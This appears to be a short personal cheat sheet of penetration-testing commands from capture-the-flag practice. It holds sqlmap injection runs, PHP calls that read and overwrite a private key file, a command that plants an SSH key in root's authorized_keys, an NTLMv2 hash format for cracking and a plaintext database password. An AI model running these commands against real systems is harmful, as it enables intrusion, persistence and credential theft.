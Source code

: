 ## Default creds
  ```
  creds search linksys
  ```
## windows lfi
  ```
  /windows/system32/license.rtf
  ```
## RSAT
  ```
  Get-WindowsCapability -Name RSAT* -Online | Add-WindowsCapability -Online
  ```
## php
  ```
  scandir("/home/dali/.config/psysh")
  file_get_contents("/home/nairobi/ca.key")
  file_put_contents("/home/nairobi/ca.key")
  ```
## wireshark ntlm
  ```
  user::domainname:serverchallenge:NTProofstring:Ntlmv2response
  ```
## git
  ```
  git log
  git diff
  git show
  git branch
  git checkout "branch"
  ```
## ssh
  ```
  echo "public key" > root/.ssh/authorized_keys
  ```
## mssql
  ```
  C:\Windows\System32\runas.exe /netonly /user:ARCHETYPE\sql_svc "C:\Program Files (x86)\Microsoft SQL Server Management Studio 20\Common7\IDE\Ssms.exe"
  ```
## mysql
  ```
  mysql -u user -p
  show databases;
  use database;
  show tables;
  describe table;
  select id from table;
  select * from table \G
  quit
  mysql -u lewis -pP4ntherg0t1n5r3c0n## -D joomla -e "show tables;"
  ```
## sqlmap
  ```
  python3 sqlmap.py --batch --risk 3 --level 5 --technique=BEUSQ --privilege -r ./reqs/tri.req
  sqlmap -r genres.request --second-req feed.request --batch --tamper=space2comment --technique=U --level 5
  ```